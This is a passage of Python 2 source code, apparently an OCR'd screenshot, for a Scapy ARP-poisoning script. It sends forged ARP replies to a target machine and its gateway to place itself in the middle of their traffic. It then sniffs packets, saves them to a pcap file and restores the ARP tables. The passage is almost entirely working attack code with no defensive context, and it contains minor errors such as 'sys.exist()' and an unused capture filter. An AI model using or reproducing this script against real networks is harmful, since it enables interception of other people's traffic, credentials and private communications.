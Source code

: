 ```python
        return r[Ether].src
    return None

def poison_target(gateway_ip, gateway_mac, target_ip, target_mac):
    poison_target = ARP()
    poison_target.op = 2
    poison_target.psrc = gateway_ip
    poison_target.pdst = target_ip
    poison_target.hwdst = target_mac
    poison_gateway = ARP()
    poison_gateway.op = 2
    poison_gateway.psrc = target_ip
    poison_gateway.pdst = gateway_ip
    poison_gateway.hwdst = gateway_mac

    print '[*] Beginning the ARP poison. [CTRL-C to stop]'
    while 1:
        try:
            send(poison_target)
            send(poison_gateway)
            time.sleep(2)

        except KeyboardInterrupt:
            restore_target(gateway_ip, gateway_mac, target_ip, target_mac)

        print '[*] ARP poison attack finished.'
        return

if __name__ == '__main__':
    conf.iface = INTERFACE
    conf.verb = 0
    print "[*] Setting up %s" % INTERFACE
    GATEWAY_MAC = get_mac(GATEWAY_IP)
    if GATEWAY_MAC is None:
        print "[-] Failed to get gateway MAC. Exiting."
        sys.exit(0)
    else:
        print "[*] Gateway %s is at %s" %(GATEWAY_IP, GATEWAY_MAC)

    TARGET_MAC = get_mac(TARGET_IP)
    if TARGET_MAC is None:
        print "[-] Failed to get target MAC. Exiting."
        sys.exit(0)
    else:
        print "[*] Target %s is at %s" % (TARGET_IP, TARGET_MAC)

    poison_thread = threading.Thread(target = poison_target, args=(GATEWAY_IP, GATEWAY_MAC, \
        TARGET_IP, TARGET_MAC))
    poison_thread.start()

    try:
        print '[*] Starting sniffer for %d packets' %PACKET_COUNT
        bpf_filter = 'IP host ' + TARGET_IP
        packets = sniff(count=PACKET_COUNT, iface=INTERFACE)
        wrpcap('results.pcap', packets)
        restore_target(GATEWAY_IP, GATEWAY_MAC, TARGET_IP, TARGET_MAC)

    except Scapy_Exception as msg:
        print msg, "Hi there!!"

    except KeyboardInterrupt:
        restore_target(GATEWAY_IP, GATEWAY_MAC, TARGET_IP, TARGET_MAC)
        sys.exist()
```